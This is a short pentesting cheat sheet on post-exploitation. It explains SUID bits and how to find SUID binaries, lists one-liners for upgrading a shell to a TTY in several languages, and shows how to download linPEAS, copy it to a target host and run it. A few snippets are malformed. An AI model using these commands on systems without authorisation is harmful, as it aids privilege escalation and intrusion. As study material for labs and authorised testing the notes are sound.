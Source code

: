 # Post Exploit

## SUID bits

![SUID](_suid.webp)

| Permission | On Files                                                      | On Directories                                           |
|------------|---------------------------------------------------------------|----------------------------------------------------------|
| SUID Bit   | User executes the file with permissions of the file owner     | -                                                        |
| SGID Bit   | User executes the file with the permission of the group owner | File created in directory gets the same group owner      |
| Sticky Bit | No meaning                                                    | Users are prevented from deleting files from other users |

SUID bits can be dangerous, some binaries such as passwd need to be run with elevated privileges (as it's resetting your password on the system), however other custom files that have the SUID bit can lead to all sorts of issues.

To search the a system for these type of files run the following: ```find / -perm -u=s -type f 2>/dev/null```

## Get a TTY Shell

If you get shell without TTY, here are some commands you can try to fix this.

Choose an option based on what is installed on the system:

- Bash ```echo os.system('/bin/bash')``` or```/bin/sh -i```
- Script: ```/usr/bin/script -qc /bin/bash /dev/null```
- Python: ```python -c 'import pty; pty.spawn("/bin/sh")'```
- Perl: ```perl —e 'exec "/bin/sh";'``` or```perl: exec "/bin/sh";```
- Lua: ```lua: os.execute('/bin/sh')```
- Ruby: ```ruby: exec "/bin/sh"``` or from within Interactive Ruby Shell```exec "/bin/sh"```
- Vi from within vi```:!bash``` or ```:set shell=/bin/bash:shell```
- nmap interactive mode: ```!sh```

## System analysis

### PEASS

<https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite>

#### Linpeas

Download linpeas and copy it target e.g. 10.10.112.131

``` sh
wget https://raw.githubusercontent.com/carlospolop/privilege-escalation-awesome-scripts-suite/master/linPEAS/linpeas.sh
scp linpeas.sh user@10.10.112.131:/dev/shm
chmod +x linpeas.sh
./linpeas.sh
```

#### Winpeas

TODO